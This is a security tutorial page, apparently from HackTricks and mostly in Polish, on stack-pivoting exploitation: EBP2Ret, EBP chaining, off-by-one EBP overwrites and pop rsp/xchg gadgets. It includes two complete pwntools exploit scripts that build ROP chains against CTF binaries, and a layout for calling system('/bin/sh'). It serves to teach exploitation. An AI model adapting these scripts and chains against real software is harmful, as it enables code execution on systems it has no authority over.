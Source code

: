 # Stack Pivoting - EBP2Ret - EBP chaining

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Podstawowe informacje

Ta technika wykorzystuje zdolność do manipulacji **wskaźnikiem bazowym (EBP)** w celu połączenia wykonania wielu funkcji poprzez staranne użycie rejestru EBP oraz sekwencji instrukcji `leave; ret`.

Przypominając, **`leave`** zasadniczo oznacza:
```
mov               esp, ebp
pop               ebp
ret
```
And as the **EBP is in the stack** before the EIP it's possible to control it controlling the stack.

### EBP2Ret

Ta technika jest szczególnie przydatna, gdy możesz **zmienić rejestr EBP, ale nie masz bezpośredniego sposobu na zmianę rejestru EIP**. Wykorzystuje zachowanie funkcji po zakończeniu ich wykonywania.

Jeśli podczas wykonywania `fvuln` uda ci się wstrzyknąć **fałszywy EBP** na stosie, który wskazuje na obszar w pamięci, gdzie znajduje się adres twojego shellcode (plus 4 bajty na operację `pop`), możesz pośrednio kontrolować EIP. Gdy `fvuln` zwraca, ESP jest ustawione na to skonstruowane miejsce, a następna operacja `pop` zmniejsza ESP o 4, **efektywnie wskazując na adres przechowywany przez atakującego.**\
Zauważ, że **musisz znać 2 adresy**: Ten, na który ESP ma iść, gdzie będziesz musiał zapisać adres, na który wskazuje ESP.

#### Exploit Construction

Najpierw musisz znać **adres, w którym możesz zapisać dowolne dane/adresy**. ESP będzie wskazywać tutaj i **wykona pierwsze `ret`**.

Następnie musisz znać adres używany przez `ret`, który **wykona dowolny kod**. Możesz użyć:

* Ważny [**ONE\_GADGET**](https://github.com/david942j/one\_gadget) adres.
* Adres **`system()`** po którym następują **4 bajty śmieci** i adres `"/bin/sh"` (x86 bits).
* Adres **gadzeta `jump esp;`** ([**ret2esp**](ret2esp-ret2reg.md)) po którym następuje **shellcode** do wykonania.
* Jakąś [**ROP**](rop-return-oriented-programing.md) łańcuch

Pamiętaj, że przed którymkolwiek z tych adresów w kontrolowanej części pamięci muszą być **`4` bajty** z powodu części **`pop`** instrukcji `leave`. Możliwe byłoby nadużycie tych 4B, aby ustawić **drugi fałszywy EBP** i kontynuować kontrolowanie wykonania.

#### Off-By-One Exploit

Istnieje specyficzna odmiana tej techniki znana jako "Off-By-One Exploit". Jest używana, gdy możesz **zmodyfikować tylko najmniej znaczący bajt EBP**. W takim przypadku lokalizacja pamięci przechowująca adres, do którego należy skoczyć z **`ret`**, musi dzielić pierwsze trzy bajty z EBP, co pozwala na podobną manipulację w bardziej ograniczonych warunkach.

### **EBP Chaining**

Dlatego umieszczając kontrolowany adres w wpisie `EBP` stosu i adres do `leave; ret` w `EIP`, możliwe jest **przeniesienie `ESP` do kontrolowanego adresu `EBP` ze stosu**.

Teraz **`ESP`** jest kontrolowane, wskazując na pożądany adres, a następna instrukcja do wykonania to `RET`. Aby to nadużyć, możliwe jest umieszczenie w kontrolowanym miejscu ESP:

* **`&(next fake EBP)`** -> Załaduj nowy EBP z powodu `pop ebp` z instrukcji `leave`
* **`system()`** -> Wywołane przez `ret`
* **`&(leave;ret)`** -> Wywołane po zakończeniu systemu, przeniesie ESP do fałszywego EBP i zacznie ponownie
* **`&("/bin/sh")`**-> Parametr dla `system`

W zasadzie w ten sposób możliwe jest łączenie kilku fałszywych EBP, aby kontrolować przepływ programu.

To jest jak [ret2lib](ret2lib/), ale bardziej złożone bez oczywistej korzyści, ale może być interesujące w niektórych skrajnych przypadkach.

Ponadto, tutaj masz [**przykład wyzwania**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave), które wykorzystuje tę technikę z **wyciekiem stosu**, aby wywołać zwycięską funkcję. To jest końcowy ładunek z tej strony:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
0x0,               # rbp (could be the address of anoter fake RBP)
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,
elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
buffer,         # Load leak address in RBP
LEAVE_RET       # Use leave ro move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```
## EBP jest bezużyteczny

Jak [**wyjaśniono w tym poście**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1), jeśli binarka jest kompilowana z pewnymi optymalizacjami, **EBP nigdy nie kontroluje ESP**, dlatego każdy exploit działający poprzez kontrolowanie EBP zasadniczo się nie powiedzie, ponieważ nie ma rzeczywistego wpływu.\
Dzieje się tak, ponieważ **prolog i epilog zmieniają się**, jeśli binarka jest zoptymalizowana.

* **Nieoptymalizowane:**
```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```
* **Optymalizowane:**
```bash
push   %ebx         # save ebx
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore ebx
ret                 # return
```
## Inne sposoby kontrolowania RSP

### **`pop rsp`** gadget

[**Na tej stronie**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp) znajdziesz przykład użycia tej techniki. W tym wyzwaniu konieczne było wywołanie funkcji z 2 konkretnymi argumentami, a tam był **gadget `pop rsp`** i był **leak ze stosu**:
```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
payload = flat(
0,                 # r13
0,                 # r14
0,                 # r15
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,               # r15
elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and
# continues the ROP chain in the prepared payload
payload += flat(
POP_CHAIN,
buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```
### xchg \<reg>, rsp gadget
```
pop <reg>                <=== return pointer
<reg value>
xchg <reg>, rsp
```
## References

* [https://bananamafia.dev/post/binary-rop-stackpivot/](https://bananamafia.dev/post/binary-rop-stackpivot/)
* [https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
